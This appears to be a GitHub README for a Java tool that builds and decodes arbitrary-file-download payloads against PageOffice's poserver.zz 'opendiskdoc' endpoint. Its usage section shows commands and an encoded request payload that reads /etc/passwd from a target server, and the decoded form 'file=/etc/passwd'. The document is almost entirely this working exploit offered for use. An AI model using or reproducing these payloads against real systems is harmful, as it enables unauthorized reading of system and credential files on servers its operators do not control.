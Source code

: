 # PageOffice_FileDownload
## package
```
javac Main.java
jar -cvmf MANIFEST.MF PageOffice-FileDownload.jar *.class
```
## env
`jdk1.8`
## Usage
### encode
```
java -jar PageOffice-FileDownload.jar encode /etc/passwd

encode payload:
poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnLDh2OCQpbSJyK2w4cj9uKzsXbiRqL2EXci9tIi0lYThjOCs5ciZjF2s=
```
### decode
```
java -jar PageOffice-FileDownload.jar decode KmcgY3MtLG0jY2VxJnQjZSYxYjVlcStwOmMmcWVkOXEpbiZtKC58Ln8tOXIXcDhzJCs

decode payload:
file=/etc/passwd&filename=1.txt&contenttype=application/octet-stream
```

